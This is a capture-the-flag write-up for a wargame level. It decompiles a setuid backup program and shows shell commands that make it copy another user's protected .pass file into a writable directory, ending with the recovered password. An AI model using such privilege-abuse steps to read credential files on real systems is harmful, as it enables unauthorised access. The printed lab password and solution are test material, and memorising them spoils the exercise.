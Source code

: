 # Walkthrough

## Reversing

```c
void log_wrapper(FILE *param_1,char *param_2,char *param_3)
{
  char cVar1;
  size_t sVar2;
  ulong uVar3;
  ulong uVar4;
  char *pcVar5;
  long in_FS_OFFSET;
  byte bVar6;
  undefined8 local_120;
  char local_118 [264];
  long local_10;

  bVar6 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_120 = param_1;
  strcpy(local_118,param_2);
  uVar3 = 0xffffffffffffffff;
  pcVar5 = local_118;
  do {
    if (uVar3 == 0) break;
    uVar3 = uVar3 - 1;
    cVar1 = *pcVar5;
    pcVar5 = pcVar5 + (ulong)bVar6 * -2 + 1;
  } while (cVar1 != '\0');
  uVar4 = 0xffffffffffffffff;
  pcVar5 = local_118;
  do {
    if (uVar4 == 0) break;
    uVar4 = uVar4 - 1;
    cVar1 = *pcVar5;
    pcVar5 = pcVar5 + (ulong)bVar6 * -2 + 1;
  } while (cVar1 != '\0');
  snprintf(local_118 + (~uVar4 - 1),0xfe - (~uVar3 - 1),param_3);
  sVar2 = strcspn(local_118,"\n");
  local_118[sVar2] = '\0';
  fprintf(local_120,"LOG: %s\n",local_118);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

int main(int argc,char **argv)
{
  char cVar1;
  long lVar2;
  int __fd;
  int iVar3;
  FILE *flog;
  FILE *__stream;
  ulong uVar4;
  char *pcVar5;
  long in_FS_OFFSET;
  byte bVar6;
  char local_79;
  char dir [8];

  bVar6 = 0;
  lVar2 = *(long *)(in_FS_OFFSET + 0x28);
  local_79 = -1;
  if (argc != 2) {
    printf("Usage: %s filename\n",*argv);
  }
  flog = fopen("./backups/.log","w");
  if (flog == (FILE *)0x0) {
    printf("ERROR: Failed to open %s\n","./backups/.log");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  log_wrapper(flog,"Starting back up: ",argv[1]);
  __stream = fopen(argv[1],"r");
  if (__stream == (FILE *)0x0) {
    printf("ERROR: Failed to open %s\n",argv[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  dir[0] = '.';
  dir[1] = '/';
  dir[2] = 'b';
  dir[3] = 'a';
  dir[4] = 'c';
  dir[5] = 'k';
  dir[6] = 'u';
  dir[7] = 'p';
  uVar4 = 0xffffffffffffffff;
  pcVar5 = dir;
  do {
    if (uVar4 == 0) break;
    uVar4 = uVar4 - 1;
    cVar1 = *pcVar5;
    pcVar5 = pcVar5 + (ulong)bVar6 * -2 + 1;
  } while (cVar1 != '\0');
  strncat(dir,argv[1],99 - (~uVar4 - 1));
  __fd = open(dir,0xc1,0x1b0);
  if (__fd < 0) {
    printf("ERROR: Failed to open %s%s\n","./backups/",argv[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    iVar3 = fgetc(__stream);
    local_79 = (char)iVar3;
    if (local_79 == -1) break;
    write(__fd,&local_79,1);
  }
  log_wrapper(flog,"Finished back up ",argv[1]);
  fclose(__stream);
  close(__fd);
  if (lVar2 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

This program is actually pretty simple, it's just a program to create
a backup of a file (`argv[1]`).

It opens the file and saves it into `./backups`.

The route for the backup file is relative, `./backup/.log`, but the file from
which read, it's just `argv[1]`, so we could pass the `level09/.pass` then.

## Explotation

Let's try to create a backup of the `.pass` file:
```bash
$ ./level08 '/home/users/level09/.pass'
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Predictable, we don't have any perms in our home, let's move to our working
dir: `/dev/shm`:
```bash
$ /home/users/level08/level08 '/home/users/level09/.pass'
ERROR: Failed to open ./backups/.log
```

We don't have a `backups` dir, so understandable, let's try again:
```bash
$ mkdir backups
$ /home/users/level08/level08 '/home/users/level09/.pass'
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Understandable, let's create that dir also:
```bash
$ mkdir -p ./backups/home/users/level09
$ /home/users/level08/level08 '/home/users/level09/.pass'
$ cat ./backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

Okey... The last level was a prank, like the one in `rainfall`, but it's
important to know things like these are also vulnerable.
